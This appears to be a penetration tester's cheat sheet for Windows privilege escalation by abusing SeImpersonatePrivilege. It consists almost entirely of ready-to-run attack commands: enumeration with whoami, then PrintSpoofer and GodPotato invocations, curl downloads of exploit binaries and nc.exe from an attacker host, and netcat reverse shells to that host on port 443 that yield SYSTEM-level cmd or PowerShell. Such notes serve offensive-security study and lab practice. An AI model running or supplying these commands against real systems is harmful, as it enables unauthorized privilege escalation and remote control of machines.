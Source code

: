 # SeImpersonatePrivilege

## Enumeration

    Whoami /priv 
    Whoami /all

## Printspoofer


    curl 192.168.10.10/PrintSpoofer64.exe -o Pr.exe

    .\Pr.exe -i -c cmd OR .\PrintSpoofer32.exe -i -c powershell.exe

## GODPotato


    curl 192.168.10.10:8081/GodPotato-NET2.exe -o god.exe

    .\god.exe -cmd "cmd /c whoami" OR

    curl 192.168.10.10:8081/nc.exe -o nc.exe

    .\god.exe -cmd "cmd /c C:\xampp\htdocs\cms\files\nc.exe 192.168.10.10 443 -e cmd"

    .\god.exe -cmd "cmd /c C:\xampp\htdocs\cms\files\nc.exe 192.168.10.10 443 -e powershell"

